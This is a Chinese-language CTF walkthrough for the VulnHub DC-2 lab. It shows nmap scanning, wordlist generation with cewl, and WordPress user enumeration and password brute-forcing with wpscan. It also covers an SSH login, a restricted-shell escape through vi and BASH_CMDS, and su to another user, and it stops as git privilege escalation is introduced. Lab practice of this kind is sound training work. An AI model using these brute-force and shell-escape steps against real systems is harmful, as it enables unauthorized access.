 <center>DC-2</center>



[toc]





## DC-2

> vulnhub： [dc-2](https://www.vulnhub.com/entry/dc-2,311/)







### 1. 信息收集

```shell
# 扫描网段
nmap -sP 172.16.168.128/24

# 扫描靶机地址
nmap -p- 172.16.168.133 -A 
```

```shell
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-title: Did not follow redirect to http://dc-2/
|_http-server-header: Apache/2.4.10 (Debian)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 00:0C:29:92:7A:9A (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# 开放了 80 apache   7744 ssh
```

> 第一次打开，跳转到`dc-2`域名。需要修改我们本地`hosts`

```shell
sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
172.16.168.133  dc-2
```

> 有一个`flag`页面，提供一些信息
>
> `wordpress`搭建的平台。

```txt


Flag 1:

Your usual wordlists probably won’t work, so instead, maybe you just need to be cewl.
您常用的单词表可能不起作用，所以也许您只需要 cewl。
More passwords is always better, but sometimes you just can’t win them all.

Log in as one to see the next flag.

If you can’t find it, log in as another.

```

1. 工具`cewl`  [github](https://github.com/digininja/CeWL)

> CeWL 是一个爬虫工具，可以爬取指定网站的内容并生成自定义字典，常用于渗透测试中的密码破解。

```shell
# 安装
sudo apt install cewl

# 使用
cewl http://example.com
# 指定最小词长度为8，爬取深度为2层，并保存到文件
cewl http://example.com -m 8 -d 2 -w output.txt
# 包含邮箱地址
cewl http://example.com --email
```

```shell
# cewl 爬取网站信息，作为密码。
cewl http://dc-2/ > pass.txt

# 查看
cat pass.txt
```

2. 工具： `wpscan` [github](https://github.com/wpscanteam/wpscan)

> WPScan 这个专门用于扫描 WordPress 安全漏洞的工具：

```shell
# 安装
sudo apt install wpscan

# 枚举用户-e u
wpsacn --url url -e u

# 枚举插件  -e p
wpscan --url http://example.com -e p

# 对多个用户进行密码爆破 -U 用户 -P 密码
wpscan --url http://example.com -U users.txt -P passwords.txt
```

```shell
# 跑出三个用户
wpscan --url http://dc-2/ -e u

# cat user.txt
admin
jerry
tom

wpscan --url http://dc-2/  -U user.txt -P pass.txt

# 跑出两个用户名和密码
[SUCCESS] - jerry / adipiscing         
[SUCCESS] - tom / parturient 
```

3. 工具： `dirb`

> 网站目录扫描工具

```shell
sudo apt install dirb

# 使用
# 使用默认字典扫描
dirb http://example.com
# 指定字典扫描
dirb http://example.com /usr/share/wordlists/dirb/common.txt
```

```shell
dirb http://dc-2/

# 后台
==> DIRECTORY: http://dc-2/wp-admin/       
==> DIRECTORY: http://dc-2/wp-content/      
==> DIRECTORY: http://dc-2/wp-includes/
```

> 有一个`flag2`页面，提供一些信息

```shell
Flag 2:

If you can't exploit WordPress and take a shortcut, there is another way.

Hope you found another entry point.

标记 2：

如果您无法利用 WordPress 并走捷径，还有其他方法。

希望您找到了另一个切入点。
```





### 2. 使用ssh

> `7744端口`

```shell
# 跑出两个用户名和密码
[SUCCESS] - jerry / adipiscing         
[SUCCESS] - tom / parturient 

# jerry 登不上
ssh jerry@172.16.168.133 -p 7744
ssh tom@172.16.168.133 -p 7744
# tom 可以登陆
```

```shell
# 进入系统ssh
ls

# 查看可以使用的命令
echo $PATH
ls /home/tom/usr/bin
# 可以使用的命令
less  ls  scp  vi
```

> vi 绕过： 
>
> ==进入vi中，执行`set` 可以将shell 改为 `/bin/sh`==

打开vi,输入命令

```shell
# vi逃逸
set shell=/bin/sh
# 2.命令
shell
```

> 设置全局变量

```shell
# 不然找不到环境变量
BASH_CMDS[a]=/bin/sh;a #把/bin/bash给a变量
export PATH=$PATH:/bin/    #将/bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   #将/usr/bin作为PATH环境变量导出
```

> 获取到`flag3`

```shell
cat flag3.txt

Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
可怜的老汤姆总是追着杰瑞跑。也许他应该为自己造成的压力而道歉。
```

> `su` 命令

```shell
su Jerry

# 密码 
adipiscing

# 进入jerry 家目录
cd ~
```

> 获取 `flag4`

```shell
cat flag4

Good to see that you've made it this far - but you're not home yet. 

You still need to get the final flag (the only flag that really counts!!!).  
# 不是最后的flag
No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
# 使用git
```

> `git 提权`漏洞
